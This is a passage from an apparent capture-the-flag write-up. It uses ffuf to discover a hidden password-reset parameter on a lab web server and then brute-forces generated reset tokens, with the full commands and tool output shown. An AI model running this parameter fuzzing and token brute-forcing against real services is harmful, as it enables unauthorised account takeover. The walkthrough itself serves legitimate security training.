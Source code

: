Generating the tokens and writing them to a file.

```console
$ python3 generate_tokens.py > tokens.txt
```

Now, before we start testing the tokens, we have to first discover the parameter name used by the `/password_reset` endpoint, since the `TEMPORARY` parameter found in the source code returns `Invalid parameter`.

![Web Server Forgot Password Invalid Parameter](web_8080_password_reset_invalid_parameter.webp){: width="700" height="200" }

Using `ffuf` to fuzz for the parameter name, we see that it returns `Invalid token` instead with the `token` parameter.

```console
$ ffuf -u 'http://10.10.125.37:8080/password_reset?FUZZ=test' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -mc all -t 100 -fr 'Invalid parameter'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.125.37:8080/password_reset?FUZZ=test
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: all
 :: Filter           : Regexp: Invalid parameter
________________________________________________

token                   [Status: 200, Size: 22, Words: 2, Lines: 1, Duration: 114ms]
```
{: .wrap }

We can now test the generated tokens by using `ffuf` once again.

```console
$ ffuf -u 'http://10.10.125.37:8080/password_reset?token=FUZZ' -w tokens.txt -t 100 -mc all -fr 'Invalid token'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.125.37:8080/password_reset?token=FUZZ
 :: Wordlist         : FUZZ: tokens.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
```